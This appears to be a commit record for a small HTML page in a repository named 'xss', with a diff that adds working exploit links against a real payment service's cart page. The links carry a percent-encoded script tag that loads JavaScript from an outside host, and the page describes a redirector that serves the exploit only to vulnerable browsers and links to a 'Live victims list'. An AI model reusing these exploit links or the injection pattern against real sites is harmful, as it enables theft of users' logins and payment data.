

Before and after one commit to orrc/xss, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-855 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Make the more fun vulnerability the main link.

```diff
--- a/index.html
+++ b/index.html
@@ -4,9 +4,11 @@
 <title>XSS fun</title>
 </head>
 <body>
-<a href="http://orr.me.uk/xss">Auto-detects vulnerable browsers and redirects to the vulnerability or to the real site</a>
+<a href="http://orr.me.uk/xss">Auto-detects XSS-vulnerable browsers and redirects to the link below, or to the real login page for non-vulnerable browsers</a>
 <p/>
-<a href="https://secure.sumup.com/en-gb/cart?total_price=0&currency=%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%73%3a%2f%2f%74%65%73%74%2e%6f%72%72%2e%6d%65%2e%75%6b%3a%38%34%34%33%2f%73%6f%63%6b%65%74%2e%69%6f%2f%73%75%2e%6a%73%20%2f%3e">Direct vulnerability link (HTML encoded)</a>
+<a href="https://secure.sumup.com/en-gb/cart?total_price=0&currency=%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%73%3a%2f%2f%74%65%73%74%2e%6f%72%72%2e%6d%65%2e%75%6b%3a%38%34%34%33%2f%73%6f%63%6b%65%74%2e%69%6f%2f%73%75%32%2e%6a%73%20%2f%3e">Direct exploit link</a>
+<p/>
+<a href="https://secure.sumup.com/en-gb/cart?total_price=0&currency=%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%73%3a%2f%2f%74%65%73%74%2e%6f%72%72%2e%6d%65%2e%75%6b%3a%38%34%34%33%2f%73%6f%63%6b%65%74%2e%69%6f%2f%73%75%2e%6a%73%20%2f%3e">Direct exploit link (boring/less suspicious version)</a>
 <p/>
 <a href="list.html">Live victims list</a>
 </head>
```
